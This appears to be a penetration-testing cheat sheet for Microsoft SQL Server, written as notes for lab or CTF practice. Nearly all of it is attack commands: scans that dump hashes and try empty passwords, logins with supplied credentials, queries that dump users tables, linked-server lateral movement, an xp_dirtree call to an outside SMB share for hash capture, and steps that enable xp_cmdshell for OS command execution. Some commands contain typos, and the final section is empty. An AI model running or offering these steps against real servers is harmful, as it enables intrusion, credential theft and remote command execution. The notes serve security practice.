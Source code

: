 ##### Scanning
```bash
nmap -Pn -sV -sC -p1433 10.10.10.125

nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip

msfconsole
use auxiliary/scanner/mssql/mssql_ping

mssqlclient.py -p 1433 Administrator:password@$ip -windows-auth
mssqlclient.py -p 1433 .\\Administrator:password@$ip 
mssqlclient.py -p 1433 domain.local/adot8:password@$ip 

netexec mssql 10.10.10.101 -d domain -u adot8 -p password -x "whoami"

sqsh -S 10.129.20.13 -U username -P Password123
```
##### Enumeration
```sql
select @@version;
SELECT name FROM sys.databases;
SELECT name FROM master..sysdatabases;
USE adot8;
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
SELECT name FROM <databaseName>..sysobjects WHERE xtype = 'U';    <-- find users table
select * from <databaseName>.dbo.users;
select * from <databaseName>.dbo.users where name like 'Admin%';
select * from <databaseName>..users;
```

View sysadmins
```sql
SELECT r.name AS role, m.name AS member FROM sys.server_principals r JOIN sys.server_role_members rm ON r.principal_id = rm.role_principal_id JOIN sys.server_principals m ON rm.member_principal_id = m.principal_id WHERE r.name = 'sysadmin';
```
##### **VIEW LINKED SERVERS - LATERAL MOVEMENT**

```powershell
SELECT srvname, isremote FROM sysservers

EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]

1> EXECUTE('master..xp_dirtree ''\\10.10.14.177\share\''') AT [LOCAL.TEST.LINKED.SRV]
2> GO
```
##### Configure xp_cmdshell
```sql
sp_configure 'show advanced options', '1';
RECONFIGURE;
sp_configure 'xp_cmdshell', '1';
RECONFIGURE;
xp_cmdshell 'whoami';

exexute sp_configure 'show advanced options', '1';
RECONFIGURE;
exexute sp_configure 'xp_cmdshell', '1';
RECONFIGURE;
exexute xp_cmdshell 'whoami;
```
##### Impersonate User
```sql
```